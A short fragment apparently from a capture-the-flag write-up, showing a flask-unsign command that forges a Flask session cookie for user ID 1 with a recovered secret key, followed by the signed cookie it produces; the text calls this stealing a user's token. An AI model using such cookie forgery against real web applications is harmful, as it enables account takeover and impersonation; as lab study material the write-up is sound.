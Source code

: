 ![alt text](../assets/images/ezgif-49aa3f0325953f.gif)


we need steal token here for user

```python
flask-unsign --sign --cookie "{'_fresh': True, '_id': '1863a91a5d6c18713e8e9cf245ef9359d2585c5c198fcfba3ac8e75005786627ce980850b3e84e17f2d76f2ca5c00464fc0c4138c802bd5e38533c5ff6975df5', '_user_id': '1', 'csrf_token': 'lmao'}" --secret 'GCqtvsJtexx5B7xHNVxVj0y2X0m10jq'
.eJwtjrsOwyAMAP-FuYONMZj8TESMrVZ9RCLpVPXfy9DxTjrpPmH1Ycc1LOd42yWstx6WgJKpVWzcs6IUJBOr6jGxeSWuPbKwsmIVV98aNRUrDMBFco5FrQoIwzbDZFg89pI9amMFSDm5giYkUYG4dTYSJlJ2z7Vwdw5z5H3Y-N9M1GP4eu53e03xeLY9fH9xnzVv.aPK9eg.E5oKGCPQruDlxBZxkF3tcA3eXWs
```
![alt text](../assets/images/ezgif-47f8e5965d9718.gif)
